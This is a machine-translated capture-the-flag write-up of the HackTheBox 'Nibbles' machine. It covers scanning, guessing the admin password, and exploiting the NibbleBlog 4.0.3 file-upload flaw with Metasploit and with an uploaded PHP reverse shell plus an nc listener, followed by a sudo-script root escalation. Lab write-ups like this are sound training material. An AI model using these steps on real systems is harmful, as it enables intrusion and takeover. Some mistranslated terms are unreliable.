# HackTheBox 向上写入字节

> 原文：<https://infosecwriteups.com/hackthebox-write-up-nibble-d871f0fea300?source=collection_archive---------0----------------------->

*这是从* [*HackTheBox*](https://www.hackthebox.eu/) 开始的 [*啃咬*](https://www.hackthebox.eu/home/machines/profile/121)

# *摘要*

*半字节是一种简单的机器，基于 nimble blog 漏洞，使用 Metasploit 我们获得初始外壳，在利用 SUID 后我们获得机器上的 root。*

**机器作者:* [mrb3n](https://www.hackthebox.eu/home/users/profile/2984) *机器类型:Linux
机器级别:3.7/10**

**

*机器地图*

# *专有技术*

*   *Nmap*
*   *Searchsploit*
*   *Metasploit*

# *吸收技能*

*   *CVE-2015–6967*

# *扫描网络*

```
*$namp -sC -sV 10.10.10.75*
```

**

*man nmap*

**

*nmap 结果*

*端口 80 的页面源码给了我们一些关于/nibbleblog 目录的提示。*

**

*查看-来源:http://10.10.10.75/*

**

*[http://10 . 10 . 10 . 75/nibble blog/](http://10.10.10.75/nibbleblog/)*

***在端口 80 上运行 Dirbuster***

**

*恐怖分子*

*Admin.php 看起来很有趣，让我们试着去破解其中一些常用的密码。*

**

*管理页面*

> *用户名:admin*
> 
> *密码:小块*

**

*设置页面*

*Nibble 博客是 4.0.3 版本，让我们试着找出是否有任何漏洞。*

# *利用服务器*

```
*searchsploit nibbleblog 4.0.3*
```

**

*搜索结果*

*让我们使用 Metasploit 来利用这个漏洞。*

```
*msf5 > use exploit/multi/http/nibbleblog_file_upload  
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set targeturi nibbleblog 
targeturi => nibbleblog 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set RHOSTS 10.10.10.75   
RHOSTS => 10.10.10.75 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set USERNAME admin       
USERNAME => admin 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > set PASSWORD nibbles     
PASSWORD => nibbles 
msf5 exploit(**multi/http/nibbleblog_file_upload**) > exploit*
```

**

*准备利用漏洞*

**

*利用服务器*

# *特许升级*

*[](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?source=post_page-----4f1911ca1511----------------------) [## 基本 Linux 权限提升

### 在开始之前，我想指出——我不是专家。据我所知，没有什么“魔法”。

blog.g0tmi1k.com](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/?source=post_page-----4f1911ca1511----------------------) 

```
$ find / -perm -u=s -type f 2>/dev/null
```



```
$ sudo -l
```



满须藤



查找 NOPASSWD 文件

我们可以不使用密码运行 monitor.sh。

*/home/nibbler/personal/stuff/monitor . sh*

# 自己的根

然而，这个文件并不存在，因此可以创建一个简单的 bash 脚本来代替它，以实现 root 访问。



创建 bash 脚本



自己的根

*

# *手工开采*

*[](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) [## NibbleBlog 4.0.3:代码执行

### 日期:2015-09-01 10:36:33 安全建议- Curesec 研究小组受影响的产品:NibbleBlog 4.0.3

curesec.com](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html) 

**第一步:-** 找到 PHP 反壳。

我用的是 Pentestmonkey 反向外壳。

[](https://github.com/pentestmonkey/php-reverse-shell) [## pentest monkey/PHP-reverse-shell

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/pentestmonkey/php-reverse-shell) 

**第二步:-** 上传 PHP shell as 和 image。



PHP-reverse-shell.php



[http://10 . 10 . 10 . 75/nibble blog/admin . PHP？控制器=插件&动作=配置&插件=我的图像](http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image)

**第三步:-** 设置反向外壳。

```
$nc -lnvp 4444
```



man nc

**第四步:-** 访问图片 URL 它会返回反向外壳。

[T3http://10 . 10 . 10 . 75/nibble blog/content/private/plugins/my _ image/image . PHP](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php)



反向外壳

[](https://medium.com/@yashanand155) [## 增量中等

### 从 inc0gnito 介质上读取文字。夺旗类游戏🚩|| HACKTHEBOX || VULNHUB ||反转。每天，成千上万的人…

medium.com](https://medium.com/@yashanand155) 

*感谢阅读！如果你喜欢这个故事，请点击**👏 ***按钮和*** *分享它来帮助别人！欢迎留言*💬*下图。有反馈？下面我们连线上* [*推特*](https://twitter.com/yashanand155) *。**

**关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。**

*[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)**